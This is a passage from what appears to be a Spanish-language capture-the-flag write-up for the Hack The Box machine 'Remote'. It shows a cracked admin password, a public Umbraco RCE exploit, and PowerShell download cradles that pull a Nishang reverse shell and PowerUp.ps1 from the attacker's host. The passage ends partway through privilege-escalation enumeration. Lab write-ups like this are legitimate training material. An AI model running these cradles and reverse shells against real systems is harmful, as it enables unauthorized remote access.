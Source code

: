 Jajaja yo ya había descifrado el hash.

```console
intrusionz3r0@kali:~$ john -show hash
Administrator:baconandcheese

1 password hash cracked, 0 left
```

Llego la hora de probar suerte y probar las credenciales en el panel de login de umbraco.

![](https://lh3.googleusercontent.com/1ljrzgP7g6PHOF3kjzvl-ND3kh_glJbX5Famm8xCdI8DmYGR_1fy-xoyXoPMilvGcmnpPHXxOGz1kDBat1xcOrRu2JN6a1jywWzT2RpwW3Xv6gzqy3V4vuzVivQePmDnCK4_lzdv)

![](https://lh4.googleusercontent.com/ZIsWBFT0R7ByCcdcLzAgP92ibFxPa4Jt3gpqCwB9ntxn48BM6-c6BYuH3tfNrEtGXL585RpmRBLgSKn1BPZDN0ddGTGV5dQZRwy2P4dxgHpsogCgyJdcbGCih2UyW-y1L82en-6G)

# Shell como el usuario defaultapppool.

Ahora que tenemos unas credenciales llego la hora de explotar este gestor de contenido, si recuerdas habíamos hecho uso de la herramienta `searchsploit` para encontrar un exploit para umbraco y  habíamos encontrado uno que necesitábamos credenciales.

Pues lamentablemente el exploit que habíamos encontrado me dio problemas a si que me di a la tarea de encontrar otro.

El exploit que utilizaremos es el siguiente: [Umbraco-RCE](https://github.com/noraj/Umbraco-RCE).

Lo ejecuto y obtenemos ejecución remota de comandos.

![](https://lh3.googleusercontent.com/0zRHgrDGPYq_JKyhOvhzfrVhDP7vduto71fHyw8rwDK5UD68FIKWOU0FaHksjxfuo3GpqUHaTHT4X3u56JJ3lNUJ7yzAWsjD7XdnaBvBDm8W8X7vRXtdn5aEIaWLh29H9hK4drcP)

Ahora  que podemos ejecutar comandos hare uso de la reverse shell `Invoke-PowerShellTcp.ps1` del repositorio de 
[nishang](https://github.com/samratashok/nishang).

Monto un servidor con python compartiendo el `Invoke-PowerShellTcp.ps1` y ejecuto el exploit.
```
intrusionz3r0@kali:~$ python exploit.py -u admin@htb.local -p baconandcheese -i http://remote.htb/ -c "powershell" -a "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28/Invoke-PowerShellTcp.ps1')"
```
![](https://lh6.googleusercontent.com/cwzhorWEw6wtKwCGSwenUn6IUsZmCRDQk14BYF1GE3xTZdwfSkJpxlD3UIJA4BPTZBX0j1h_r0ck0pqlo2mVAa_8Iu139M2Nd0NPKZHBsgzftMCjuZXJXTAuY8pw4ZatXWPYAq1l)

> **Nota:** Para que el script en powershell se interprete y se ejecute necesitas agregar al final del script la siguiente linea: **Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PORT]**.

# Shell como el usuario administrador.

Comienzo a enumerar la máquina subiendo un script de enumeración llamado `PowerUp.ps1` del repositorio de [PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Monto un servidor con python compartiendo el `PowerUp.ps1` y lo ejecuto en la máquina.

```console
PS C:\windows\system32\inetsrv> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28/PowerUp.ps1');Invoke-AllChecks
```
